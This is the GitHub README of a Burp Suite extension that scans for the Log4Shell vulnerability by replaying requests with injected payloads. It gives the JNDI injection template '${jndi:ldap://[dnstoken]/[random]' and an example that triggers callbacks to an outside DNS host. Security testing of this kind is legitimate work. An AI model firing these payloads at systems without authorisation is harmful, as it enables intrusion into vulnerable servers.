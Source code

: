 <h1 align="center">
  <br>
  Log4J Scanner
</h1>

<h4 align="center">Burp extension to scan Log4Shell (CVE-2021-44228) vulnerability pre and post auth.</h4>

---

<p align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/release/0xDexter0us/Log4J-Scanner.svg">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
      <img src="https://img.shields.io/github/stars/0xDexter0us/Log4J-Scanner.svg?style=social&label=Stars">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
    <img src="https://img.shields.io/github/followers/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=0xDexter0us">
      <img src="https://img.shields.io/twitter/follow/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://discord.gg/bugbounty">
      <img src="https://img.shields.io/badge/chat-on%20discord-7289da.svg">
  </a>

</p>

---
## Disclaimer
> I am not responsible for your actions, burp-suite freezing, target getting hacked, thermonuclear war, or the current economic crisis caused by you following these directions. YOU are choosing to use this tool, and if you point your finger at me for messing anything up, I will LMAO at you.

---
![Log4J-Scanner](https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/log4j-scanner.png)

## Instructions:
 - You need to have a burp project with pre-existing history, it replays requests with payloads.
 - Add a DNS token from any service you prefer [interact.sh](https://app.interactsh.com), [pipedream](https://pipedream.com), [canarytokens](https://canarytokens.org), [dnslog.cn](https://dnslog.cn) or burp collaborator.
 - Either select one of the pre-defined payload or add a custom payload.
 - Add custom payload as: `${jndi:ldap://[dnstoken]/[random]` as `dnstoken`and `random` are place-holders, also remember __NOT__ to add `}`closing curly bracket.
 - Select location for payload insertion, headers or parameters or both.
 - For post-auth scanning add the complete cookie, auth header. Eg: `Authorization: Bearer ya29.m.CvkBAd1XLWYfLkuHFIuOYFCfcGI137rr...`
 - Hit **Hack The Planet** button.

### Important instructions to remember:

 - You'll need [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) extension to trace the request triggering the DNS callback.
 - Remember to add this extension above [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to track all out going requests.

 ![Burp-Externder](https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/extender.png)

### How to track callbacks:

- Payload triggering callback will contain a 6 character unique ID
- Example payload `${jndi:ldap://example.interact.sh/ABC123` where `ABC123` will be the unique ID
- You can search for this ID in [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to trace the request.

## Download releases
`https://github.com/0xDexter0us/Log4J-Scanner/releases/`

## Build from source
* `./gradlew build fatJar`
* Grab the jar file `build/libs/Log4J-Scanner-x.x.x.jar`

## Installation
1. Download the latest jar from releases or build from source.
2. Add the jar to Burp Suite.



#### If you like the project, please give the repo a star! <3

## Resources

- For passive scanning: `https://github.com/f0ng/log4j2burpscanner`
- For active scanning: `https://github.com/albinowax/ActiveScanPlusPlus`


## Changelog

**13 December 2021 - v.0.1.0**
 - First public release

## Thanks To

* CoreyD97 - https://github.com/CoreyD97


### This was coded be me within a day and is an initial release, bug might occur, bug reports, suggestions and pull requests all are welcome :)

-----

[![Join our Discord server!](https://invidget.switchblade.xyz/bugbounty)](http://discord.gg/bugbounty)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Q5Q76ZT6K)
